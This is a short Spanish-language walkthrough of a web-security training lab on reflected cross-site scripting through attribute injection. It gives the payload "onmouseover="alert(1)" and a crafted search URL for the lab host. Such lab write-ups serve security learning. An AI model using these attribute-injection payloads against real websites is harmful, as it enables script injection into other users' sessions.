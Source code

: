 # Lab: Reflected XSS into attribute with angle brackets HTML-encoded

```jsx
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
```

Verificamos que el input que ingresamos, se refleja en el titulo de la busqueda

![image.png](Lab%20Reflected%20XSS%20into%20attribute%20with%20angle%20bracke%20fe74ac0c959d43e687683dd539b43f1c/image.png)

Por ende, probamos con estos payloads

1. `"onmouseover="alert(1)`

[https://0a410097038d61b2832f8bee000a009e.web-security-academy.net/?search="onmouseover%3D"alert(1)](https://0a410097038d61b2832f8bee000a009e.web-security-academy.net/?search=%22onmouseover%3D%22alert%281%29)

![image.png](Lab%20Reflected%20XSS%20into%20attribute%20with%20angle%20bracke%20fe74ac0c959d43e687683dd539b43f1c/image%201.png)